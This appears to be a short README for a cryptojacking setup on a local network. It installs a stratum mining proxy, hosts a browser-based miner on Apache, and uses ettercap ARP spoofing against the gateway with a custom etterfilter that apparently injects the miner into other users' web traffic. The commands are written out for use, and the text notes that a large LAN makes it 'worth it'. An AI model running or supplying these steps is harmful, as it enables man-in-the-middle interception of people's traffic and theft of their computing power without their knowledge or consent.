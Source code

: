 Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

git clone https://github.com/slush0/stratum-mining-proxy
git clone https://github.com/slush0/stratum
cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt
move lm to your apache directory.
cp lm /var/www/html -R
/etc/init.d/apache2 restart
etterfilter nethash.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //
CHANGE nethash.etterfilter file's ip in the perl script section to point to the webserver where you host the miner.

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
